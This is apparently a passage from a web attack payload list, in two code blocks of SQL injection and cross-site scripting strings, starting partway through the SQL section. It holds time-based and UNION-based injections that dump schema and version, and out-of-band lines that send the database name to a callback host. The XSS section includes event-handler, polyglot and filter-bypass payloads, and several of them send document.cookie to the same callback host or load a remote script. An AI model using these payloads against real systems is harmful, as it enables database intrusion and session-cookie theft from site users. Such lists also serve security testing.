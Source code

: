 ```
' OR 1=(SELECT 1 FROM PG_SLEEP(5))--

# === UNION-Based ===
' UNION SELECT 1,2,3--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT 1,@@VERSION,3--
' UNION SELECT 1,user(),3--
' UNION SELECT 1,table_name,column_name FROM information_schema.columns--
-1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata--

# === Out-of-Band (OAST) ===
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT DATABASE()), '.{{CALLBACK_URL}}\\a'))--
' AND (SELECT UTL_INADDR.GET_HOST_ADDRESS('{{CALLBACK_URL}}') FROM DUAL) IS NULL--
' AND (SELECT UTL_HTTP.REQUEST('http://{{CALLBACK_URL}}') FROM DUAL) IS NULL--
  
```

**2. Cross-Site Scripting (XSS)**

code Codedownloadcontent\_copyexpand\_less

```
# === Basic Payloads ===
"><script>alert(document.domain)</script>
'><script>alert(document.cookie)</script>
<script>fetch('//{{CALLBACK_URL}}?c='+btoa(document.cookie))</script>

# === HTML Tag & Event Handler Payloads ===
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<body onload=alert(1)>
<details/open/ontoggle=alert(1)>
<iframe src="javascript:alert('XSS')">
<img src="x:x" onerror="window.location='https://{{CALLBACK_URL}}/'+document.cookie">
<video><source onerror="alert(1)">
<math><maction actiontype="toggle" xlink:href="javascript:alert(1)">CLICKME</maction></math>
<a href="javascript:alert(1)">Click Me</a>

# === Polyglot Payloads (Work in multiple contexts) ===
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
'">><marquee><img src=x onerror=alert(1)></marquee>
`"'><img src=x onerror=alert(1)>
-->">'>"><img src=x onerror=alert(1)>

# === Encoded & Bypass Payloads ===
%3cscript%3ealert(1)%3c/script%3e
&lt;script&gt;alert(1)&lt;/script&gt;
<scr<script>ipt>alert(1)</scr</script>ipt>
<img src="/" ="" onerror=alert(1)>
<sCrIpT sRc=//{{CALLBACK_URL}}></sCrIpT>
  
```
